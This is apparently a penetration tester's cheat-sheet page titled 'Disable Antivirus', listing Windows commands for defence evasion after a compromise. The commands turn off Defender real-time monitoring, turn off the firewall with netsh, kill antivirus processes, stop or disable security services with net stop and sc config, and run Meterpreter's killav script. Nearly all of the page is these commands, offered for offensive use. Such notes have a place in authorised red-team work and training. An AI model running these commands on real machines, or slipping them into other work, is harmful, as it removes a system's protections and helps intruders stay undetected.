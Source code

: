 ```yaml
---
description: >-
  Commands to disable antivirus to make post exploitation eaiser. Please note
  that these should not be considered OPSEC safe.
---
```


# Disable Antivirus

## Disable real-time monitoring for Windows Defender

`Set-MpPreference -DisableRealtimeMonitoring $true`

## Disable Windows Firewall

`netsh advfirewall set allprofiles state off`

## Manually Disable Antivirus

`Taskkill /F /IM avprocess.exe`

## Stop an Antivirus Service

`net stop “service name”`

## Disable a Windows Service

`sc config "service name" start= disabled`

## Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

`run killav`

## Disable AntiVirus via the GUI

I haven't seen this in quite a bit. However, non-administrative users are sometimes able to disable the antivirus running on the host via a GUI interface. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
